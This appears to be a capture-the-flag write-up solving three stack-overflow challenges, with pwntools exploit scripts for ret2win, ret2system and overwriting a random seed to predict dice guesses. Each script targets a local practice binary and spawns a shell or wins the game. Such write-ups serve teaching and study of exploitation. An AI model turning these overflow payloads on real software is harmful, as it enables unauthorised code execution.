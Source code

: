 The main logic is simple, main prints `hello, world`, then calls `vulnerable_function`.

This function reads 0x200 bytes of data, and put them into 0x80 length buffer, which leads to a buffer overflow. Another useful function is `callsystem`, which gives us a shell.

The steps to solve:

1. Fill the first 0x80 bytes.
2. Overflow the 0x8 bytes of stack data useless.
3. Replace the next 4 bytes (return address) to `callsystem`.

```python
from pwn import * 
r = process("./app")
payload = 'A' * 0x88 + p64(0x00400596)
r.sendlineafter("Hello, World\n", payload)
r.interactive()
```

### 先别急

A little simple ROP challenge.

In this challenge, we don't have `callsystem` function any more. Instead, we need to find a `/bin/sh` string in the program.

Luckily, this challenge has `PIE disabled`. We can write libc address directly.

1. Overflow and jump to `system` function address.
2. Gives a `/bin/sh` string as parameter, and `0` as the second parameter.

```python
from pwn import *
system=0x08048320
shell=0x0804A024
r=process("./app")
payload='A'*(0x92)+p32(system)+p32(0)+p32(shell)
r.sendlineafter("Input:\n", payload)
r.interactive()
```

### 你猜我猜不猜

This challenge has Canary, NX, and PIE. We can't simple use ROP method because of the canary. However, the seed is on the stack as well. We can't reach the return address, but we can reach the seed integer.

1. Overflow 0x20 bytes and reach seed.
2. Replace the seed value.

Use the same seed, we can "predict" all the random numbers.

```python
from pwn import *
from ctypes import *

libc=cdll.LoadLibrary("/lib/x86_64-linux-gnu/libc.so.6")
libc.srand(0)

r=process("./app")
payload='A'*(0x20)+p32(0)
r.sendlineafter("Your name:", payload)

for i in range(10):
    num=str(libc.rand()%6+1)
    r.sendlineafter("Please input your guess number:", num)
r.interactive()
```
